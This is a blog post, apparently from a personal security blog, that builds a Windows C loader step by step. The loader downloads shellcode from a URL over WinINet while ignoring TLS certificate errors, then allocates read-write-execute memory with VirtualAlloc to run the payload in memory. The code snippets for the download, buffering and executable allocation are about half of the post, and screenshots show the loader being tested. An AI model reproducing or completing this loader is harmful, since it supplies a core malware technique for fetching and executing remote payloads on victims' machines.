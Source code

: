 ```yaml
---
title: "Dynamic payload loader in C: downloading and executing shellcode in memory"
date: 2025-10-25   
categories: [Malware]
tags: [Malware]
image: "https://i.pinimg.com/736x/03/78/9e/03789e4a71539296997e4e4afb13a1c5.jpg"
---
```


In this post we will explore the development of a loader in C that uses Windows APIs to retrieve a remote payload via HTTP and execute it directly in memory. In this Post obfuscation techniques will not be explored.

## Understanding the implementation logic
In an overview, I will debug the loader and explain its operation in parts and how I used the APIs in its construction.

Function GetShellFromUrl:
```c
BOOL GetShellFromUrl(LPCWSTR szUrl, PBYTE* pPayloadBytes, SIZE_T* sPayloadSize) {
    BOOL        bSTATE = TRUE;
    HINTERNET   hInternet = NULL,
                hInternetFile = NULL;
    DWORD       dwBytesRead = 0;
    SIZE_T      sSize = 0;
    DWORD       dwError = 0;
    PBYTE       pBytes = NULL;
    PBYTE       pTmpBytes = NULL;
```
Basically the GetShellFromUrl function is responsible for downloading data from a URL. It receives the web address and returns the downloaded data along with its size. Internally, it uses control variables: bSTATE monitors success or failure, hInternet and hInternetFile manage network connections, dwBytesRead counts bytes read per operation, sSize accumulates the total size, dwError stores error codes, pBytes holds the complete payload and pTmpBytes serves as a temporary buffer for reading in chunks.

WININET initialization:
```c
hInternet = InternetOpenW(L"Ozyy", INTERNET_OPEN_TYPE_DIRECT, NULL, NULL,
    INTERNET_FLAG_IGNORE_CERT_DATE_INVALID |
    INTERNET_FLAG_IGNORE_CERT_CN_INVALID);
```

In this part, it starts an Internet session using [InternetOpenW](https://learn.microsoft.com/en-us/windows/win32/api/wininet/nf-wininet-internetopenw), where it configures the user agent and ignores SSL certificate checks to ensure that connections can be established even with untrusted servers.


Opening the URL:
```C
hInternetFile = InternetOpenUrlW(hInternet, szUrl, NULL, 0,
    INTERNET_FLAG_RELOAD |
    INTERNET_FLAG_IGNORE_CERT_DATE_INVALID |
    INTERNET_FLAG_IGNORE_CERT_CN_INVALID, 0);
```
Here the specific HTTP connection is established using [InternetOpenUrlW](https://learn.microsoft.com/en-us/windows/win32/api/wininet/nf-wininet-internetopenurlw). This function opens a communication channel with the remote server using the previously created session. The INTERNET_FLAG_RELOAD flag forces a direct download from the server.

Dynamic memory management:
```c
pTmpBytes = (PBYTE)LocalAlloc(LPTR, 1024);
```
```C
PBYTE pNewBuffer;
if (pBytes == NULL) {
    pNewBuffer = (PBYTE)LocalAlloc(LPTR, dwBytesRead);
}
else {
    pNewBuffer = (PBYTE)LocalReAlloc(pBytes, sSize + dwBytesRead, LMEM_MOVEABLE | LMEM_ZEROINIT);
}
```
Here I implemented a section that manages memory incrementally during the download. First, it allocates a temporary buffer to receive data in chunks. On the first read, it creates a main buffer with the exact size of the received chunk. For each new piece of data, it dynamically expands the main buffer using memory reallocation, which allows resizing the existing block and fills the new area with zeros. This enables building the complete file in memory efficiently, concatenating all chunks without wasting resources, adapting to files of any size in an optimized way.

Error handling:
```C
_Cleanup:
    if (hInternetFile) InternetCloseHandle(hInternetFile);
    if (hInternet)     InternetCloseHandle(hInternet);
    if (pTmpBytes)     LocalFree(pTmpBytes);

    if (!bSTATE && pBytes) {
        LocalFree(pBytes);
        *pPayloadBytes = NULL;
        *sPayloadSize = 0;
    }
```
LocalFree releases the temporary buffer. In case of failure, the main buffer is also freed and the return pointers are reset.

Executable memory allocation:
```c
LPVOID execMem = VirtualAlloc(NULL, Size, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
```
Executable memory allocation is performed using [VirtualAlloc](https://learn.microsoft.com/en-us/windows/win32/memory/allocating-virtual-memory). NULL allows the system to choose the optimal base address. MEM_COMMIT | MEM_RESERVE allocates both address space and physical storage. PAGE_EXECUTE_READWRITE sets dangerous permissions that allow reading, writing, and execution.



## Executing our Loader:
First creating an HTTP server with Python just to test.
![alt text](/assets/post7/server.jpeg)

Executing the Loader:
![alt text](/assets/post7/executando.jpeg)
![alt text](/assets/post7/rodou1.jpeg)

